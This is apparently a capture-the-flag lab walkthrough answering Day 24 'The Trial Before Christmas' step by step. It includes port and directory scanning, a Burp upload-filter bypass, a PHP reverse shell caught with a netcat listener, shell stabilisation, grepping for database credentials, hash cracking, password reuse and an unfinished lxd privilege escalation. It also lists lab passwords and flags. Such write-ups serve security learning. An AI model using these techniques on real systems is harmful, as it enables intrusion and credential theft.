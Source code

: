 		m33pa55w0rdIZseecure! - restore previous version of the folder and masterpassword.txt file becomes apparent.

## Day 24 - Special by DarkStar: The Trial Before Christmas

	1.Scan the machine. What ports are open?
		80, 65000 - usd nmap -sSVC <ipaddress>
	2. What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.
		Light Cycle - This is the title of the site on port 65000
	3. What is the name of the hidden php page?
		uploads.php - Gobuster finds this page pretty quickly. Used the command gobuster dir -u <url> -x .php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
	4. What is the name of the hidden directory where file uploads are saved?
		grid - this was found with gobuster. gobuster dir -u <url> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
	5. Bypass the filters. Upload and execute a reverse shell. 
		 use burp suite to bypass the client side filter. Turn on the proxy and load the upload page, on the proxy tab go to options and turn on "Intercept Cllient Requests" and remove java script from the file extension filter. Alo turn on "Intercept Server Responses" as well. Upload the php reverse shell file and turn on netcat with the command nc -lvnp 1234
	6. Upgrade and stabilize your shell. 
		we have a shell but it is not stable, to stablize the shell run "python3 -c 'import pty;pty.spawn("/bin/bash")'" to get a full shell, then export TERM=xterm so that terminal commands work, and finally ctrl + z to background the shell and run the command stty raw -echo; fg to get a fully functioning shell.
	7. Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password
		tron:IFightForTheUsers - this can be found using the command grep -rnw /var -e 'dbuser' we can assume that the username is dbuser because we are looking for database credentials, but you could also try different search terms.
	8. Access the database and discover the encrypted credentials. What is the name of the database you find these in?
		tron - this can be found by using the mysql. The command is mysql -utron -pIFightForTheUsers, which will log us in. Then we use show databases; to list all the databases.
	9.Crack the password. What is it?
		@computer@ - to get this I used the following process. I used the command "use tron;" to use the database, then I use "show tables;" to list the tables in the database, then "select * from users;" to list all the items in the table. This will give a username and a password that is hashed. Using crackstation.net I was able to crack the hash.
	10. Use su to login to the newly discovered user by exploiting password reuse. 
		typed "su flynn" then tried the password and was logged in successfully.
	11. What is the value of the user.txt flag?
		THM{IDENTITY_DISC_RECOGNISED} - "cat ~/user.txt"
	12.Check the user's groups. Which group can be leveraged to escalate privileges? 
		lxd - this can be found by typing the command 'id' to show the groups
	13. Abuse this group to escalate privileges to root.
		following the instructions on the challenge: 3. For the sake of this example, we'll be skipping close to the end (see the bolded bit above) by checking what images are readily available on the machine in question. We can do that via the following commands: 
